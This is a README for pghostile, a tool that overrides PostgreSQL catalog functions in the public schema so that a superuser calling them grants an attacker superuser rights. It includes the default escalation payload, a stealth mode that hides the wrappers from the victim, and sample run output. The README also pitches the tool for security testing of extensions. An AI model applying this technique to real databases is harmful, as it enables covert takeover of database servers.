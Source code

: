 # PGHOSTILE
Pghostile can make PostgreSQL an hostile environment for superusers and a funny playground for attackers.  
Pghostile is a automated tool for overriding "system" functions (the ones from the 'pg_catalog' schema) allowing an attacker to elevate privileges if/when these functions are called by a superuser.  

It can be also used to test the security of the PostgreSQL extension. You can run pghostile to create the "exploit functions" and then run the extension's unit tests and see if you get superuser power after that.

## How it works
In PostgreSQL every function is identified by it's name plus the number/types of arguments (like in Java). If a function is defined to accept a numberic value and you define a function with the same name that accepts an integer, your function will be called if the input parameter is an integer and the original one will be called if the input is a float.  
Considering that an unprivileged user can create functions in the public schema and that the public schema is part of the 'search_path', it's relatively easy to trick a superuser to run code from public instead of pg_catalog.  

In a few words, pghostile searches pg_catalog for functions that can be overridden and creates a malicious wrapper of them in the public schema.  

Currently, it can identify ~150 functions/parameters combinations that can lead to privilege escalation. To give an example, the list below contains some of these functions:
```SQL
select sha256('a');
select byteaout('a');
select int4(1);
select btarraycmp(array [1, 2], array [1, 2]);
select array_position(array [1, 2], 1, 1);
select unnest(array [1, 2]);
select array_remove(array [1, 2], 1);
select array_replace(array [1, 2], 1, 1);
select varcharout('a');
select log(1);
select log10(1);
select ln(1);
select round(1);
select trunc(1);
select sqrt(1);
select pow(1, 1);
select power(1, 1);
select exp(1);
```

Then, if the superuser runs something like `select sha256('test123')` you will be superuser in no time ;)

## Usage
```
positional arguments:
  db_username           Database username
  db_name               Database name

optional arguments:
  -h, --help            show this help message and exit
  -X, --disable-exploits-creation
                        Do not create exploit functions
  -H DB_HOST, --db-host DB_HOST
                        Database host (default 127.0.0.1)
  -p DB_PORT, --db-port DB_PORT
                        Database port
  -P, --ask-pass        Prompt for database passsword
  -o OUT, --out OUT     Output dir (deafult ./out)
  -T, --skip-tests      Disable test
  -s, --disable-stealth-mode
                        Disable stealth mode
  -S DB_SSL_MODE, --db-ssl-mode DB_SSL_MODE
                        Database ssl mode (default None)
  -x EXPLOIT_PAYLOAD, --exploit-payload EXPLOIT_PAYLOAD
                        The SQL commands
```

With the -X option you can disable the actual exploit creation. It will just run the tests to see which functions can be overridden.  
With the -T option you can disable the tests and just create the exploit functions.  
The -x option allows you to specify what SQL command(s) should be used in your exploit. By default it's ```ALTER USER <db_username> WITH SUPERUSER;```.  
The -s option disables the "stealth mode". In stealth mode the wrapping functions will call the original function from pg_catalog, in this way the superuser won't see any anomaly when calling a wrapped function.  

### Example
```
pghostile.py user1 testdb -H 10.211.55.12
```
```
Starting ... 

[ * ] 332 interesting functions have been identified
[ * ] Creating test functions
[ * ] Testing functions
[ * ] Deleting test functions
[ * ] Creating exploit functions
[ * ] Done! 251 functions have been created

150 exploitable functions and params combinations have been tested!
The './out' folder contains the output
```
